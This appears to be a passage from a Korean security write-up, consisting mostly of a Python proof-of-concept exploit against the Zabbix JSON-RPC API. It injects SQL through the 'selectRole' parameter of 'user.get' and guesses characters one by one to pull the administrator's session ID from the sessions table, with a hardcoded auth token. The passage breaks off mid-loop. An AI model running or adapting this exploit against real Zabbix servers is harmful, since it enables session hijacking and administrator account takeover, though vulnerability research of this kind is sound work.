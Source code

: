 ![/assets/2025-01-02-youngdu/image.png](/assets/2025-01-02-youngdu/image%209.png)

최종 POC 코드는 다음과 같습니다.

```python
import requests
import hmac
import hashlib
import base64
import json
import time
from collections import OrderedDict

# 기본 설정
url = "http://localhost/zabbix/api_jsonrpc.php"
auth_token = "775b26ca0a9cb0e549daeb031f92a37b"  
headers = {
    "Content-Type": "application/json"
}

def extract_session_id():
    session_id = ""
    print("[*] Extracting sessionid from sessions table...")

    for i in range(1, 50):  
        found_char = False
        for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
            payload = {
                "jsonrpc": "2.0",
                "method": "user.get",
                "params": {
                    "selectRole": [
                        f"readonly AND IF(SUBSTRING((SELECT sessionid FROM sessions where userid=1 LIMIT 1),{i},1)='{char}',1,0)"
                    ],
                    "userids": ["1"]
                },
                "id": 1,
                "auth": auth_token
            }
```